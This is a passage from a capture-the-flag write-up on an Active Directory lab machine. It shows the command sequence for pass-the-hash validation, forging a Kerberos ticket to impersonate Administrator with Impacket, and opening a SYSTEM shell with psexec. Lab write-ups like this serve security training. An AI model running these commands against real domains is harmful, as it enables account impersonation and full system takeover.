 Validating the hash of the object:
```
crackmapexec smb 10.10.10.248 -u svc_int$ -H 4b18bc2b883607c026d27bf526bcb3d4
```

### Privilege Escalation to Administrator

With this service user, is is possible to generate a **Silver Ticket** to impersonate an Administrator account.

Synchronizing local time with the box:
```
ntpdate 10.10.10.248
```

Generating ticket with the **Impacket framework**:
```
impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes 4b18bc2b883607c026d27bf526bcb3d4:4b18bc2b883607c026d27bf526bcb3d4
```

Exporting ticket into environment variable:
```
export KRB5CCNAME=Administrator.ccache
```

Using **Impacket-psexec** to start a shell:
```
impacket-psexec -k -no-pass intelligence.htb/Administrator@dc.intelligence.htb
```

It starts a shell on the box as the _SYSTEM_ user!
